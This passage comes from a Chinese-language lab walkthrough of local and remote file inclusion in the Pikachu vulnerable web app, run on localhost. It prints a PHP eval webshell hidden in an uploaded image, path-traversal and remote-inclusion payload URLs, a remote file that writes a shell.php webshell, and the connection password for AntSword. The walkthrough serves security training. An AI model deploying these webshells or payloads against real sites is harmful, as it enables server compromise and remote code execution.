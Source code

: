 >
> ```
> <?php @eval($_POST['123']);?>
> ```
>
> ![image-20221128192307249](https://img-blog.csdnimg.cn/img_convert/ccea7f91a8a4c6f684917abf2c3d7121.png)
>
> 在文件上传处上传带有恶意代码的图片, 随后返回图片的相对路径:`uploads/ImgTrjs.jpg`
>
> ![动画](https://img-blog.csdnimg.cn/img_convert/d42dacf5ecdf84493f9ac5bbd398766c.gif)
>
> 包含不存在的文件导致报错:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=file7.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`
>
> 从报错信息可看出文件包含函数用的是include(), 被包含的文件路径为`pikachu\vul\fileinclude\include\file7.php`
>
> ![image-20221128193653147](https://img-blog.csdnimg.cn/img_convert/c652cdd601f739ae46b3e582c87bdd71.png)
>
> 由于文件处于`/include`目录下, 故不能使用绝对路径, 需转换成相对路径, 最终包含木马图片的payload如下
>
> ```
> http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/ImgTrjs.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
> ```
>
> ![image-20221128195624830](https://img-blog.csdnimg.cn/img_convert/757c61d06a06f528f95a13f448a6d351.png)
>
> 使用蚁剑连接webshell, 连接url地址为:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/ImgTrjs.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`, 连接密码为123
> ![1](https://img-blog.csdnimg.cn/img_convert/8083d88d72107f015f0c92d6792f6888.gif)

### File inclusion(Remote)

#### 原理

能通过url地址对远程的文件进行包含, 这也意味着攻击者可以传入任意的代码

与此同时远程包含漏洞还能包含本地文件的绝对路径或相对路径

远程文件包含涉及到两个配置选项
allow_url_fopen = On 是否允许打开远程文件
allow_url_include = On 是否允许include/require远程文件

同样摘取[Henry404s](https://blog.csdn.net/xf555er?type=blog)师傅的文章：

> #### 远程生成Webshell
>
> 首先生成一个文本文件部署在服务器上，这里为了测试方便，我选择放在phpstudy的根目录下，文件内容为
>
> ```
> <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[123]);?>');?>
> ```
>
> 文件的url地址为
>
> ```
> http://127.0.0.1/GenerateWebshell.txt
> ```
>
> ![1](https://img-blog.csdnimg.cn/img_convert/c1c204b4fbcd26ba0c5d072d7f562ce3.png)
>
> 最终构成的远程包含payload为`http://127.0.0.1/pikachu/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/GenerateWebshell.txt&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`